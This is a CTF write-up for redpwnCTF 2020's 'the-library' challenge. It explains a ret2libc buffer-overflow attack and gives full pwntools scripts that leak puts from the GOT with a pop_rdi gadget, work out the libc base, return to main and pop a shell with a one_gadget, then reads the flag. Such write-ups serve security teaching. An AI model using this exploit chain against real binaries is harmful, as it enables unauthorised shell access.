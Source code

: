 # the-library
This is a classic `ret2libc` exploit, where we want the main fuctino to return to the libc file where we can access many usefull functions.
## ret2libc procedure
To run a return to libc exploit, we need some fundemental elements.
* libc position
* libc version
* function offsets
* return to main
* etc.
First, we need to tackle the libc position. We need to find this on the remote server since it will be different on every machine. Also, the position will change each time we run the program due to `ASLR`, so we need to do the exploit in one run.
### libc position
```cpp
read(0, name, 0x100);
puts("Hello there: ");
puts(name);
```
In the program, after the input we we can see that we have 2 `puts()` we could leverage using `BOF`. What we need to do is to first overflow to the `rip` registers then run `pop_rdi` gadget then put the `global offset table` value of puts into `puts` itself and we leaked the address of puts. With that and the original libc, we can locate the base pointer of `libc`.  
To find the symboles and GOT addresses, pwntools got us covered. The only thing we need to get is `pop_rdi`. We could use `ropper` to search for it.
```bash
ropper -- file the-library --search "% ?di"

0x0000000000400733: pop rdi; ret;
```
We got the address of the gadget and now we can try an write a script to leak the libc location.
#### script
```python
from pwn import *
host,port="2020.redpwnc.tf",31350
p = connect(host,port)
binary = ELF('./the-library')
libc = ELF('./libc.so.6')
JUNK = "A" * 24
main = binary.symbols['main']
got_puts = binary.got['puts']
plt_puts = binary.plt['puts']
pop_rdi = 0x400733

payload = JUNK
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(main)

p.recvline()
p.sendline(payload)
p.recvline()
p.recvline()
leaked_puts = u64(p.recvline().strip().ljust(8, "\x00"))
libc_puts = libc.symbols['puts']
libc.address = leaked_puts - libc_puts
log.success("Leaked puts :  {}".format(hex(leaked_puts)))
log.success("Libc at  :  {}".format(hex(libc.address)))
```
By subtracting the leaked puts address and the libc puts location, we get the libc base pointer.

### Finding the version and offsets
We could use libcdb to find the version of libc running with some address of a function. The site also has the offsets for functinos we need.
```
libc6_2.27-3ubuntu1_amd64
libc6_2.3.6-0ubuntu20_i386_2
```
These are the versions that satisfy our leaked address, and obviously, we are running on a 64 bit architecture so `amd64` is the way to go.
### Call Main
We don't want the program to terminate at this point as all our effort into finding the libc will be lost as it will change next run. So, how do we execute the code again? Well, we could call `main`
### Getting a Shell
We could obviously find the `system()` function and the `/bin/sh` gadget using pwntools, but when I was researching I found something called [`one_gadget`](https://github.com/david942j/one_gadget). This is basically one single gadget that will pop a shell for you. And when I checked, it was compatible with our platform.

## Final Exploit
Now we just need to leak the libc, run main, run onegadget and we got a shell. Here's the full script.
```python
from pwn import *
host,port="2020.redpwnc.tf",31350
p = connect(host,port)
binary = ELF('./the-library')
libc = ELF('./libc.so.6')
JUNK = "A" * 24
main = binary.symbols['main']
got_puts = binary.got['puts']
plt_puts = binary.plt['puts']
pop_rdi = 0x400733


payload = JUNK
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(main)

p.recvline()
p.sendline(payload)
p.recvline()
p.recvline()
leaked_puts = u64(p.recvline().strip().ljust(8, "\x00"))
libc_puts = libc.symbols['puts']
libc.address = leaked_puts - libc_puts
log.success("Leaked puts :  {}".format(hex(leaked_puts)))
log.success("Libc at  :  {}".format(hex(libc.address)))


libc_base=libc.address
payload = JUNK
one_gadget = p64(libc.address + 0x4f2c5) 
payload+=one_gadget

p.recvline()
p.sendline(payload)
p.interactive()
```
## Flag
Cat out `flag.txt`
```bash
cat flag.txt
flag{jump_1nt0_th3_l1brary}
```